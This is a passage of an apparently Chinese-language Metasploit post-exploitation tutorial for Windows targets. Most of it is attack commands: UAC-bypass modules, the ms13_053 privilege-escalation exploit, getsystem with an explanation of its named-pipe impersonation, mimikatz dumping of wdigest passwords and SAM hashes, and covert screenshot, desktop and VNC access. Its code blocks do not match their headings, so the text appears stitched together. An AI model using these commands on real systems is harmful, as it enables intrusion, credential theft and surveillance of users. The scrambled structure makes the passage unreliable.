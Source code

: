 ### 0x04. 信息收集

信息收集的脚本位于：

```
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
use windows/local/bypassuac_vbs
use windows/local/ask
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232239-8e454716-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232239-8e454716-998c-1.png)

信息收集的脚本较多，仅列几个常用的：

```
msf > use exploit/windows/local/bypassuac
msf > set SESSION 2
msf > run
```

### 0x05. 提权

1)getsystem 提权

```
meterpreter > run post/windows/gather/enum_patches  #查看补丁信息
msf > use exploit/windows/local/ms13_053_schlamperei
msf > set SESSION 2
msf > exploit
```

getsystem 工作原理：  
①getsystem 创建一个新的 Windows 服务，设置为 SYSTEM 运行，当它启动时连接到一个命名管道。  
②getsystem 产生一个进程，它创建一个命名管道并等待来自该服务的连接。  
③Windows 服务已启动，导致与命名管道建立连接。  
④该进程接收连接并调用 ImpersonateNamedPipeClient，从而为 SYSTEM 用户创建模拟令牌。  
然后用新收集的 SYSTEM 模拟令牌产生 cmd.exe，并且我们有一个 SYSTEM 特权进程。  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232239-8e5f42e2-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232239-8e5f42e2-998c-1.png)

2)bypassuac

内置多个 pypassuac 脚本，原理有所不同，使用方法类似，运行后返回一个新的会话，需要再次执行 getsystem 获取系统权限，如：

```
load mimikatz    #help mimikatz 查看帮助
wdigest  #获取Wdigest密码
mimikatz_command -f samdump::hashes  #执行mimikatz原始命令
mimikatz_command -f sekurlsa::searchPasswords
```

如使用 bypassuac.rb 脚本：

```
enumdesktops  #查看可用的桌面
getdesktop    #获取当前meterpreter 关联的桌面
set_desktop   #设置meterpreter关联的桌面  -h查看帮助
screenshot  #截屏
use espia  #或者使用espia模块截屏  然后输入screengrab
run vnc  #使用vnc远程桌面连接
```
